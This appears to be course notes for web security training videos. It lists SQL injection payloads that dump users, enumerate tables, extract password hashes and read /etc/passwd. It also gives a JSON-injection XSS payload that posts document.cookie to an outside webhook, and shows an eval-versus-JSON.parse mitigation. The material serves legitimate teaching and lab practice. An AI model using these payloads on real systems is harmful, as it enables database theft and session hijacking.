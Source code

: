# Video 7.2

* [[OWASP] A03:2021 - Injection](https://owasp.org/Top10/A03_2021-Injection)
* [[OWASP] WSTG: Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

# Video 7.3

## Various payloads

```sql
-- Dump all users
' or '0'='0
```
```sql
-- Dicover number of columns in a result - increase null columns in union until error disappears
' union select null, ..., null#
```
```sql
-- Get DB version
' union select null,@@version#
```
* [More system variables](https://dev.mysql.com/doc/refman/8.0/en/server-system-variables.html)
```sql
-- Check user that runs the database and db name
' union select user(),database()#
```
```sql
-- Enumerate available tables
' union select null, table_name from information_schema.tables #
```
```sql
-- Enumerabe columns from users table
' union select null,column_name from information_schema.columns where table_name='users' #
```
```sql
-- Exfiltrate users passwords using concat when more columns needed
-- 0x20 space
-- 0x0a newline character
-- 0x3a semicolon
' union select concat(user_id,0x0a,first_name,0x20,last_name),concat(user,0x3a,password) from users #
```
```sql
-- Read file
' union all select load_file(‘/etc/passwd’),null #
```

# Video 7.4

* [Selenium WebDriver](https://www.npmjs.com/package/selenium-webdriver)

* Payload for XSS on JSON injection excercise.

```js
//replace with your own endpoint
var payload = 'Neat site"});fetch("https://webhook.site/4fc9cc8e-c8cc-XXXX-a385-607ef4351cd2",{method: "POST", body:document.cookie});({ "time": "2022-02-29", "who": "Friend", "body": "Neat site';
```

# Video 7.5

```js
// JSON Injection Mitigation
var p = '{ "time": "2022-03-26", "who": "Joe", "body": "Neat site"});alert(document.domain);({ "time": "2022-02-29", "who": "Friend", "body": "Neat site" }'
eval(`(${p})`);
JSON.parse(p); //throws parsing error


var p = '{ "time": "2022-03-26", "who": "Joe", "body": "Neat site"}';
JSON.parse(p);
```
